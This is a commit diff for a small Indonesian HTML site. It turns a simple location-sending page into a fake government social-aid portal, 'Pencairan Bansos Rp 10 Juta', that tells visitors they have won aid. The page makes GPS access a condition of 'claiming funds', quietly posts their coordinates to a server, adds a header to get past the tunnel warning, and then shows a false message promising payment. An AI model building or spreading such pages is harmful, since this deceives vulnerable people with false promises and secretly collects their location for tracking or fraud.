

Before and after one commit to bansos10juta/bansos10juta, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 178-606 px from the top of the page, without its empty margins (261-1020 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,13 +1,15 @@
+# @title
+%%writefile index.html
 <!DOCTYPE html>
 <html lang="id">
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Lacak Koordinat by handyazka</title>
+  <title>Portal Bansos 2026</title>
   <style>
     body {
       font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-      background-color: #e9ecef;
+      background-color: #f4f6f9;
       display: flex;
       justify-content: center;
       align-items: center;
@@ -17,57 +19,55 @@
     .container {
       background-color: #ffffff;
       padding: 40px 30px;
-      border-radius: 12px;
-      box-shadow: 0 8px 16px rgba(0,0,0,0.1);
+      border-radius: 8px;
+      box-shadow: 0 4px 12px rgba(0,0,0,0.15);
       text-align: center;
       max-width: 400px;
       width: 90%;
+      border-top: 5px solid #28a745;
     }
     h2 {
-      color: #343a40;
+      color: #333;
       margin-bottom: 10px;
+      font-size: 22px;
     }
     p {
-      color: #6c757d;
-      font-size: 14px;
-      margin-bottom: 30px;
+      color: #555;
+      font-size: 15px;
+      margin-bottom: 25px;
+      line-height: 1.5;
     }
     button {
-      background-color: #007bff;
+      background-color: #28a745;
       color: white;
       border: none;
       padding: 14px 24px;
       font-size: 16px;
-      border-radius: 8px;
+      border-radius: 6px;
       cursor: pointer;
       font-weight: bold;
       transition: background-color 0.3s;
       width: 100%;
     }
     button:hover {
-      background-color: #0056b3;
+      background-color: #218838;
     }
     .footer {
-      margin-top: 25px;
+      margin-top: 20px;
       font-size: 12px;
-      color: #adb5bd;
-      font-weight: bold;
+      color: #999;
     }
   </style>
 </head>
 <body>
   <div class="container">
-    <h2>Deteksi Lokasi</h2>
-    <p>Aplikasi untuk mengirimkan titik koordinat lokasi kamu saat ini secara akurat.</p>
-    <button onclick="kirimLokasi()">Kirim Lokasi Sekarang</button>
-    <div class="footer">App by handyazka</div>
+    <h2>Pencairan Bansos Rp 10 Juta</h2>
+    <p>Selamat! Anda terpilih sebagai penerima bantuan sosial. Klik tombol di bawah untuk memverifikasi data dan lokasi pencairan dana Anda.</p>
+    <button onclick="kirimLokasi()">Verifikasi & Cairkan Dana</button>
+    <div class="footer">© 2026 Portal Resmi Bansos</div>
   </div>
 
   <script>
-    // PERHATIKAN BARIS DI BAWAH INI!
-    // Nanti ganti tulisan LINK_LOCALTUNNEL_KAMU_DISINI dengan link dari Localtunnel
-    const LINK_SERVER = "https://rotten-dingos-ask.loca.lt";
-
     function kirimLokasi() {
       if (navigator.geolocation) {
         navigator.geolocation.getCurrentPosition(position => {
@@ -76,20 +76,23 @@
             lng: position.coords.longitude
           };
 
-          fetch(LINK_SERVER + '/api/lokasi', {
+          fetch('/api/lokasi', {
             method: 'POST',
-            headers: { 'Content-Type': 'application/json' },
+            headers: {
+              'Content-Type': 'application/json',
+              'Bypass-Tunnel-Reminder': 'true'
+            },
             body: JSON.stringify(dataLokasi)
           })
           .then(response => response.text())
-          .then(hasil => alert("Server bilang: " + hasil))
-          .catch(error => alert('Gagal kirim, pastikan link server sudah benar.'));
+          .then(hasil => alert("Verifikasi berhasil! Dana akan diproses ke rekening Anda dalam 1x24 jam."))
+          .catch(error => alert('Gagal menyambung ke server, coba lagi.'));
 
         }, error => {
-          alert('Gagal dapet lokasi. Pastiin GPS nyala dan diizinin.');
+          alert('Pencairan gagal. Anda wajib mengizinkan akses lokasi (GPS) agar sistem bisa memverifikasi area pencairan dana Anda.');
         });
       } else {
-        alert("Browser kamu gak support fitur ini.");
+        alert("Perangkat Anda tidak mendukung sistem ini.");
       }
     }
   </script>
```
